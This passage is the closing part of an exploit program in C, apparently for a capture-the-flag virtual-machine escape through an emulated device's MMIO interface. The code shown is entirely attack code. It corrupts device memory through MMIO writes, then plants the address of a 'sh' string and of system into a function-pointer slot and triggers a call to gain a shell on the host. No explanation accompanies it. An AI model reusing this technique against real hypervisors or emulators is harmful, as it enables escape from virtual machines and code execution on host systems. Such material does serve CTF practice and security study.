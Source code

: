 ```
    //利用加密改变读写位置
    mmio_write(0x10, 0x18);
    mmio_write(0x18, 0x40);
    mmio_write(0x50, 0);
    getchar();

    puts("[*]wirte the system");
    u_int64_t sh = base - 0x20 + 0x9f0 + 0xa10;
    printf("sh addr 0x%lx\n", sh);

    getchar();

    u_int64_t new_base = (base + 0x9f0 + 0xdf0) - 0x9e0;
    printf("new_base addr 0x%lx\n", new_base);

    *(u_int64_t *)(target + 7) = sh;
    *(u_int16_t *)(target + 7 + 8) = 0;
    *(u_int16_t *)(target + 7 + 0xa) = 0x11;

    *(u_int64_t *)(target + (0x1000 - 0x20 - 0xde9)) = new_base;
    *(u_int64_t *)(target + (0x1000 - 0x20 - 0xde9 + 8)) = sys;
    mmio_write(0x60, 0);

    getchar();

    mmio_write(0x60, 0);

    return 0;
`}`
```
